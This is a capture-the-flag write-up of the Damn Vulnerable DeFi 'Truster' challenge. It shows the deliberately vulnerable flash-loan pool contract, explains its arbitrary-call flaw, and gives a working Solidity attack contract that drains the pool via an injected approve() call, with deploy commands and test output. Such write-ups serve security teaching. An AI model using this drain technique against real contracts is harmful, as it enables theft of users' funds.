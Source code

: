 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/3.png">

# Target Contract Review

Given contract.

**TrusterLenderPool.sol**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

`TrusterLenderPool` is a contract that **allows users to borrow tokens from the pool and execute arbitrary code in a flash loan**.

The constructor function takes an instance of the `DamnValuableToken` contract and assigns it to the token variable.

`flashLoan()` : It allows a borrower to borrow a specified amount of tokens from the pool and execute a target function with provided data. The borrower must provide the amount to borrow, their address, the target contract address, and the data to be executed.

Inside the function, the current balance of the token contract is stored in the `balanceBefore` variable. Then, the specified amount of tokens is transferred from the pool to the borrower's address using the transfer function of the token contract. After that, the target function specified by the borrower is executed using the `functionCall()` function.







Challenge's message:

> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
The pool holds 1 million DVT tokens. You have nothing.
To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

# Subverting

The `flashLoan()` function allows one to take a flash loan and then ensures that the loan has been paid back. This function execute `target.functionCall(data)` command which gives us ability of calling a low-level function. In other words, we can call ERC20 standart token's functions. Like `approve()`...

In this case, we can call `approve()` function to approve all balance. After then, we clearly call flashLoan function to transfer all token from the pool contract with passing first paramater as 0. Here is our attack contract looks like:


```solidity
pragma solidity ^0.8.0;

import "../truster/TrusterLenderPool.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract AttackTruster {

    TrusterLenderPool pool;
    constructor(address payable _pool){
        pool = TrusterLenderPool(_pool);
    }

    function attack(IERC20 token)external{
        uint balance = token.balanceOf(address(pool));
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), balance);
        pool.flashLoan(0, msg.sender, address(token), data);
        token.transferFrom(address(pool), msg.sender, balance);
    }
}
```

Basically, it gets the address of the `TrusterLenderPool` contract in the constructor. Later, it gets the pool contract's balance. Next, it **encodes the data variable with the abi signature parameter as the approve function and its parameters** we will have sent when the `functionCall()` is executed.

In the final step, first, we call the flashLoan function to execute data. Lastly, we transfer all tokens to our balance. Here are the attacker commands:

```js
const AttackFactory = await ethers.getContractFactory('AttackTruster', deployer);
attack = await AttackFactory.deploy(pool.address);
await attack.connect(player).attack(token.address);
```

Solve the challenge.

```powershell
  [Challenge] Truster
    ✔ Execution (73ms)


  1 passing (2s)

Done in 2.75s.
```

**_by wasny0ps_**
